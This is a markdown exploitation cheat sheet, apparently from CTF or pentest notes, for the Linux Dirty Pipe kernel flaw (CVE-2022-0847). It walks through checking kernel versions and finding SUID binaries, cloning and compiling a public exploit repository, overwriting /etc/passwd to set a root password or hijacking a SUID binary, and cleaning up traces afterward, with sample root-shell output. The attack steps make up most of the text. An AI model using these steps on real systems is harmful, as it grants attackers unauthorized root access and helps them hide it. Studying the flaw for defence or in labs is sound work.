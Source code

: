 ### 1. Technique Name:

Dirty Pipe – Arbitrary Write to Read-Only Files (CVE-2022-0847)
### 2. Summary:

Dirty Pipe is a critical vulnerability in the Linux kernel (versions 5.8 through 5.17) that allows local unprivileged users to overwrite read-only files, even those owned by root, provided they have read access to them. Similar to Dirty COW, it allows privilege escalation by modifying sensitive files like `/etc/passwd` or hijacking SUID binaries.

The vulnerability lies in the Linux kernel’s pipe buffer handling logic, and allows for arbitrary file overwrites through specially crafted splice and write operations.
### 3. Conditions / Requirements:

- Kernel version 5.8 – 5.17 (check with `uname -r`)    
- Read access to a target file (e.g., `/etc/passwd`, SUID binaries)
- Ability to compile and execute C code
- Local access to the system
### 4. Enumeration Steps:
#### A. Check kernel version:

```bash
uname -r
# Must fall between 5.8 and 5.17
```
#### B. Confirm write permissions on target files (read access is enough):

```bash
ls -l /etc/passwd
```
#### C. Find SUID binaries (for exploit-2):

```bash
find / -perm -4000 2>/dev/null
```
### 5. Exploitation Steps:
#### A. Download and compile the exploit:

```bash
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```
#### Option 1 – Overwrite `/etc/passwd` (exploit-1):

This exploit injects a new root user with password `piped` into `/etc/passwd`.

```bash
./exploit-1
```

Output:

```
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell...
```

Now switch to root:

```bash
su root
# password: piped
```
#### Option 2 – Hijack SUID binary (exploit-2):

Pick a SUID binary like `/usr/bin/sudo` or `/usr/bin/passwd`, and run:

```bash
./exploit-2 /usr/bin/sudo
```

Output:

```
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
```

Confirm root access:

```bash
# id
uid=0(root) gid=0(root)
```
### 6. Post-Exploitation Tips:

- Restore original `/etc/passwd` if modified:    

```bash
mv /tmp/passwd.bak /etc/passwd
```

- Clean up dropped SUID shell if used:

```bash
rm /tmp/sh
```

- Use your access to pivot or enumerate further:

```bash
cat /root/flag.txt
```
### 7. Example Commands / Recap:

#### Kernel verification:

```bash
uname -r
# Expect something like 5.13.0-xx
```
#### PoC Repository:

[https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Dirty_Pipe